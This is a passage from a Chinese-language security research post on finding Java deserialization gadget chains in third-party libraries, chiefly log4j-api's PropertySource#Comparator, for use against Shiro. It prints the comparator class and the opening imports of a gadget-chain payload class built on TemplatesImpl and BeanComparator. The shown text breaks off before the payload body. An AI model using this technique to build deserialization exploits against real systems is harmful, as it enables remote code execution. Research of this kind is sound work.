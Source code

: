 

----





## 第三方依赖

在挖掘完前面两个类的时候，我就在想其他第三方组件里面会不会存在呢？于是乎就有了下面的结果，测试了43个开源项目，其中15个有。这里只谈论了两个组件apache/log4j、apache/Commons-lang

![image-20210614112251136](https://gitee.com/samny/images/raw/master/summersec//51u22er51ec/51u22er51ec.png)



----

### PropertySource#Comparator



`PropertySource#Comparator`是在组件`log4j-api`下的一个类，log4j是Apache基金会下的一个Java日志组件，宽泛被应用在各大应用上，在`spring-boot`也能看到其身影。

![image-20210614155143828](https://gitee.com/samny/images/raw/master/summersec//43u51er43ec/43u51er43ec.png)



![image-20210614113207171](https://gitee.com/samny/images/raw/master/summersec//7u32er7ec/7u32er7ec.png)



`PropertySource#Comparator`的代码只有八行，其中比较方法也是有参方法，参数类型是`PropertySource`。

```
class Comparator implements java.util.Comparator<PropertySource>, Serializable {
    private static final long serialVersionUID = 1L;

    @Override
    public int compare(final PropertySource o1, final PropertySource o2) {
        return Integer.compare(Objects.requireNonNull(o1).getPriority(), Objects.requireNonNull(o2).getPriority());
    }
}
```

构造成gadget链的最终代码如下，在第38行开始是实现接口`PropertySource`的，不过也可以只写一个实现类就行。

ps：这里就不在演示效果。

```
package summersec.shirodemo.Payload;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.beanutils.BeanComparator;
import org.apache.logging.log4j.util.PropertySource;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
```